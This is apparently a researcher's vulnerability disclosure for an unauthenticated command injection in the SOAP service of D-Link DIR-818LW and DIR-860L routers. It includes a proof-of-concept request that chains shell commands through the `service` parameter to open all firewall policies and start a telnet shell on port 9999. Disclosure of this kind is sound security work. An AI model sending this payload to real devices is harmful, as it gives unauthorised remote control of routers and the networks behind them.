 # D-Link Unauthenticated OS Command Injection

**Vender**: D-Link

**Firmware version**:
DIR-818LW_REVA_PATCH_2.05.B03,
DIR-860L_REVB_2.03.B03

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vendor Homepage**: http://us.dlink.com/

**Hardware Link**:
https://support.dlink.com/ProductInfo.aspx?m=DIR-818LW,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L

## Vul detail ##

I found unauthenticated remote code execution vulnerability in `soapcgi_main` function of `cgibin` binary.

On the `/soap.cgi` service in `49152` port, with the `service` parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with [CVE-2018-6530](https://github.com/TheBeeMan/Pwning-multiple-dlink-router-via-SOAP-proto#0x04-details---lan---revab---command-injection-in-soap-controltype-url-interface), and some firmware was already added character sanitizing with `strchr` function.

However, on the firmware DIR-818LW_REVA_PATCH_2.05.B03, DIR-860L_REVB_2.03.B03; they not fully filtered the vulnerable character.

![](JEB.png)

With `&&` string, the device can be exploited, too.

## POC

```
# nc 192.168.0.1 49152
POST /soap.cgi?service=&&iptables -P INPUT ACCEPT&&iptables -P FORWARD ACCEPT&&iptables -P OUTPUT ACCEPT&&iptables -t nat -P PREROUTING ACCEPT&&iptables -t nat -P OUTPUT ACCEPT&&iptables -t nat -P POSTROUTING ACCEPT&&telnetd -p 9999&& HTTP/1.1
Host: 192.168.0.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

# telnet 192.168.0.1 9999
```


